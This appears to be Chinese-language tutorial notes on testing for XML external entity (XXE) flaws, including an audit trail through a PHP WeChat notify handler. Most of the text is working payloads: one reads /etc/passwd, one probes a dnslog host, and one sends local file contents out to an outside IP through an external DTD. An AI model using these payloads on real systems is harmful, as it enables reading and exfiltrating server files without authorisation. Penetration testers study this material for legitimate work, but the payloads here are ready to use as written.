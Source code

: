 1、获取Content-Type或数据类型为xml时，尝试进行xml语言payload进行测试

2、不管获取的Content-Type类型或数据传输类型，均可尝试修改后提交测试xxe

流程：功能分析-前端提交-源码&抓包-构造Paylod测试

更改请求数据格式：`Content-Type:xml`
```xml
<?xml version = "1.0"?>
<!DOCTYPE ANY [
<!ENTITY f SYSTEM "file:///etc/passwd">
]>
<x>&f;</x>
```


# 白盒测试

审计流程：

1、漏洞函数simplexml_load_string
2、pe_getxml函数调用了漏洞函数
3、wechat_getxml调用了pe_getxml
4、notify_url调用了wechat_getxml
访问notify_url文件触发wechat_getxml函数,构造Paylod测试

先尝试读取文件，无回显后带外测试：
```xml
<?xml version="1.0" ?>
<!DOCTYPE test [
<!ENTITY % file SYSTEM "http://1uwlwv.dnslog.cn">
%file;
]>
<root>&send;</root>

```

然后带外传递数据解决无回显：
```xml
<?xml version="1.0"?>
<!DOCTYPE ANY[
<!ENTITY % file SYSTEM "file:///d:/1.txt">
<!ENTITY % remote SYSTEM "http://47.94.236.117/test.dtd">
%remote;
%all;
]>
<root>&send;</root>






test.dtd：

<!ENTITY % all "<!ENTITY send SYSTEM 'http://47.94.236.117/get.php?file=%file;'>">

```




